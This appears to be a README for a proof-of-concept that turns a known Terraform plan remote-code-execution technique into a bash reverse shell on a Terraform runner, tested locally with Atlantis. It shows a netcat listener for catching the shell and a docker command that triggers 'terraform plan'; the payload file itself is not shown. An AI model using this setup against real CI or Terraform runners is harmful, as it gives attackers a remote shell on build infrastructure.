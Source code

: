 
# Overview
Src - https://alex.kaskaso.li/post/terraform-plan-rce

But with bash reverse shell, as on terraform runner

# Testing with atlantis locally

## One terminal tab (either locally or on different host)
```bash
nc -vklp  4242
```

## Second terminal tab (either same host or remote host)

```bash
# `--net=host` is only needed if you want to connect to same host, where docker container is running
# Then in exploit, you need to use as remote address `host.docker.internal` as equivalent to `localhost` pointing from container to it's host system
docker run --net=host -v "$(pwd)":/app -it ghcr.io/runatlantis/atlantis bash -c "cd /app; terraform plan"
```


